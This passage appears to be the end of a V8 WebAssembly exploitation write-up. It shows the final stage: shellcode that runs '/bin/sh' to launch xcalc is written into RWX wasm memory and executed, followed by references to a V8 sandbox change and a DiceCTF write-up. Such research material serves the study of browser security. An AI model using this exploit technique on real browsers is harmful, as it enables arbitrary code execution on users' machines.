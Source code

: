 ```js
  0x732f6e69622fb848n,
  0x66525f5450990068n,
  0x15e8525e54632d68n,
  0x4c50534944000000n,
  0x302e303a273d5941n,
  0x00636c6163782027n,
  0x0f583b6a5e545756n,
  0x0000000000000005n
];
for (let i = 0; i < shellcode.length; i++)
  strong_write(rwx + (8n * BigInt(i)), shellcode[i]);

_instance.exports.main();
```


## References
 - [\[sandbox\] Remove a number of native allocations from WasmInstanceObject](https://chromium-review.googlesource.com/c/v8/v8/+/3845636)
 - [DiceCTF 2022 - Memory Hole | kylebot's Blog](https://blog.kylebot.net/2022/02/06/DiceCTF-2022-memory-hole/)
 - [WebAssembly.Global() constructor - WebAssembly | MDN](https://developer.mozilla.org/en-US/docs/WebAssembly/JavaScript_interface/Global/Global)
